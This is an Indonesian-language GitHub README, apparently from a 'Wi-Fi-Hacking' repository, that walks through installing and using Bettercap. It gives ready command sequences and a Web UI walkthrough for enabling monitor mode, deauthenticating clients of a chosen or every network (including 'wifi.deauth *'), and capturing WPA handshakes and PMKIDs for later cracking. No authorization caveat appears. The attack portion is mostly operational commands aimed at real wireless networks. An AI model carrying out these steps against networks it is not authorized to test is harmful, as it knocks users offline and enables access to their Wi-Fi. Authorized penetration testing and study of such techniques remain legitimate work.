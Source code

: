 # Bettercap

![bettercap logo](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/bettercap%20logo.jpg)

[Bettercap](https://www.bettercap.org/) adalah sebuah framework yang kuat, mudah diperluas, dan portabel yang ditulis dalam [Go](https://id.wikipedia.org/wiki/Go_(bahasa_pemrograman)) yang bertujuan untuk menawarkan kepada peneliti keamanan, red teamer, dan reverse engineer sebuah solusi all-in-one yang mudah digunakan dengan semua fitur yang mungkin mereka perlukan untuk melakukan rekognisi dan menyerang jaringan [Wi-Fi](https://en.wikipedia.org/wiki/Wi-Fi), perangkat [Bluetooth Low Energy](https://en.wikipedia.org/wiki/Bluetooth_Low_Energy), perangkat [HID nirkabel](https://en.wikipedia.org/wiki/USB_human_interface_device_class), [CAN-bus](https://en.wikipedia.org/wiki/CAN_bus), dan jaringan [IPv4](https://en.wikipedia.org/wiki/IPv4)/[IPv6](https://en.wikipedia.org/wiki/IPv6).

## Cara Instal

Kali Linux:

1. Pake packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
   bettercap -version
   ```

2. Pake Go:

   Pake Go versi: `go1.24.7`
   
   ```
   sudo apt-get update
   sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
   go install github.com/bettercap/bettercap/v2@latest
   sudo mv ~/go/bin/bettercap /usr/local/bin/
   bettercap -version
   ```

Buat info lebih lengkapnya lagi bisa liat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Cara Make

Sebelum pake Bettercap, kita harus mengaktifkan mode monitor dulu pake:

```
sudo airmon-ng check kill
sudo airmon-ng start [interface]
```

### 1. Mode Interaktif

Mode interaktif adalah mode pada Bettercap di mana kita pake sesi interaktif dan masukin perintahnya secara manual (interaktif).

Jalanin:

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

Caplet adalah sekumpulan perintah Bettercap yang disimpen di file yang berekstensi `.cap`. Fungsinya itu buat mengotomatisasi eksekusi perintah-perintah yang ada di Bettercap, biar kita kaga usah lagi mengetikkan perintah satu-satu secara manual.

Jalanin:

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode Web UI

Mode Web UI adalah mode di Bettercap yang menyediakan tampilan web, tujuannya itu biar kita bisa pake Bettercap lewat browser.

Jalanin:

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian `web ui starting on`, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang mau dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Mulai scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, yaitu:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan [dBm](https://en.wikipedia.org/wiki/DBm).
   - `ESSID`: Nama Wi-Fi.
   - `BSSID`: Alamat MAC unik dari AP.
   - `Vendor`: Produsen AP berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang dipake oleh Wi-Fi.
   - `Ch`: Channel yang dipake oleh AP.
   - `Clients`: Jumlah klien yang terhubung ke AP.
   - `Sent`: Jumlah paket data yang dikirim dari klien ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh klien.
   - `Seent`: Jumlah paket yang terdeteksi dari klien atau AP selama proses pemantauan.
8. Di sini, kita harus pilih BSSID target yang mau diserang, terus klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita bisa lakuin dua jenis serangan, yaitu:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Kalo mau Capture Handshake, klik yang `Deauthenticate Client`. Kalo mau Capture PMKID, klik yang `Associate`. Dalam kasus ini, gw bakal pilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Harus ada 1 klien yang aktif.
   > - Capture PMKID: Kaga semua router mendukung PMKID.
10. Abis klik `Deauthenticate Client`, tungguin ampe handshakenya berhasil dicapture. Handshake dianggap berhasil dicapture kalo muncul ikon `kunci merah` dibagian `Encryption` dan nongol notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari 3 `Type` yang warna merah di bagian pesannya yang `Captured handshake for...`:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar ini, keliatan kalo file handshakenya disimpan di direktori: `/root` dan nama filenya adalah: `bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
